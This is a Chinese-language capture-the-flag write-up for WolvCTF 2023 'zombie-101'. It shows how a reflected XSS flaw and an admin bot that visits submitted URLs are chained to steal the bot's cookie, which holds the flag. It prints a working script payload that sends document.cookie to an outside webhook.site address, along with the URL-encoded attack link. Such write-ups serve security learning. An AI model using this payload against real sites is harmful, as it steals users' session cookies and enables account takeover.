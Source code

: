 # WolvCTF(2023)-zombie-101 writeup

访问题目地址:

![web-3.1](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.1.png)

有两个输入框，先看下前端代码,只有两个接口信息：
![web-3.2](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.2.png)

貌似没啥东西，第一个输入框要求输入一个zombie节目，第二个是输入一个zombie节目url。

第一个框随便输入内容之后，回显内容如下，输入内容嵌入到页面里面了

![web-3.3](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.3.png)

试试xss注入,很好，没有过滤：

<script>alert(1)</script>

请求地址：`http://49.232.142.230:11589/zombie?show=%3Cscript%3Ealert%281%29%3C%2Fscript%3E`

![web-3.8](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.8.png)

第二个框是输入一个url,随便输入之后，回显内容要求输入的url中host头要和题目地址一样，emm

![web-3.9](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.9.png)

输入题目中host头的url,显示admin bot访问了我的url,这里结合前一个输入框的xss，显然是一个xss盗取cookie的场景，flag应该就在admin bot用户的cookie中:

![web-3.6](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.6.png)

如果是xss盗取cookie的话，我们可以利用webhook进行回传：

https://webhook.site/#!/view/409eebb6-3c36-4da2-915b-1d2c3ea3426c

![web-3.4](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.4.png)

大致捋一下思路：

```
提交一个可以盗取cookie的payload到/show?
        │
        ▼
之后提交/show?生成的xss页面到 /visit?url=...   👨‍💻
        │
        ▼
admin bot 访问你构造的 url                    🤖
        │
        ▼
触发 XSS 脚本 -> document.cookie             📡
        │
        ▼
获得包含 flag 的 cookie 信息                  🍪
        │
        ▼
fetch 发送到你的 webhook.site                 🕵️‍♂️
        │
        ▼
你在 webhook.site 页面看到 flag               ✅
```

好了，这里先构造payload:

```
<script>fetch('https://webhook.site/409eebb6-3c36-4da2-915b-1d2c3ea3426c',{method:'POST',body:document.cookie})</script>
```

提交到第一个输入框：

![web-3.10](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.10.png)

此时包含题目host头的url为：

```
http://49.232.142.230:11589/zombie?show=%3Cscript%3Efetch%28%27https%3A%2F%2Fwebhook.site%2F409eebb6-3c36-4da2-915b-1d2c3ea3426c%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Adocument.cookie%7D%29%3C%2Fscript%3E
```

提交到请求url的输入框：

![web-3.5](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.5.png)

![web-3.11](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.11.png)

cookie信息回弹：

![web-3.7](https://github.com/rootwlen/ctf/blob/main/web%20/img/web-3.7.png)
